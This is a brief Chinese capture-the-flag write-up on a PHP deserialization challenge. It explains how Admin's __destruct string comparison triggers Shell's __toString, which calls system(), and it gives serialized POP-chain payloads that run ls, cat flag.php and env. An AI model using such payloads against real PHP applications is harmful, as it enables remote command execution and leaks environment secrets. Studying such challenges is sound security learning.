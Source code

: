 说明要构造一个payload

观察知道终级目标肯定是利用class Shell里面的system指令

```php
class Shell {
        public $cmd;
        function __construct($cmd) {
            $this->cmd = $cmd;
        }

        function __toString() {
            system($this->cmd);
        }
    }

```

考虑如何调用__toString()这一魔术方法，这时候就要构造pop链

发现有如下类可以利用：

```php
class Admin {
        public $name;
        function __destruct() {
            if ($this->name == 'admin') {
                echo 'Welcome! My master';
            } else {
                die('no!!! you are not my master');
            }
        }
    }
```

其中有一个$this->name=='admin'

如果在此处把$this赋一个Shell类，有判断字符串相等这一环节，就会强制调用Shell类里面的__toString()方法

所以构造Payload：

```
O:5:"Admin":1:{s:4:"name";O:5:"Shell":1:{s:3:"cmd";s:2:"ls";}}
```

以post方法传一个class参数进去

什么都没得到

换个姿势

```
O:5:"Admin":1:{s:4:"name";O:5:"Shell":1:{s:3:"cmd";s:5:"ls ./";}}
```

爆出了目录里面有flag.php

改payload，使用cd ./ && cat flag.php指令，得到flag里面的内容

![](https://s1.ax1x.com/2022/11/07/xjzFJ0.png)

发现FLAG是个env，是个环境变量

所以改payload

```
O:5:"Admin":1:{s:4:"name";O:5:"Shell":1:{s:3:"cmd";s:3:"env";}}
```

得到flag
